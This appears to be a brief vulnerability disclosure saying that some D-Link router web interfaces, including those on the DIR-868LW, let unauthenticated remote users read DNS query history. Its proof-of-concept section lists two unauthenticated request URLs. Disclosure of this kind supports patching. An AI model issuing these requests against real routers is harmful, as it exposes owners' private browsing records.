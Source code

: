 ### Info of Vulnerability
D-Link routers have some web interfaces without authentication requirements. An attacker can remotely obtain users' DNS query history.

Vulnerable targets include but are not limited to the latest firmware versions of DIR-868LW

### POC
http://targetip/mydlink/get_LogDnsQuery.asp
http://targetip/common/get_LogDnsQuery.asp

![image](dns.png)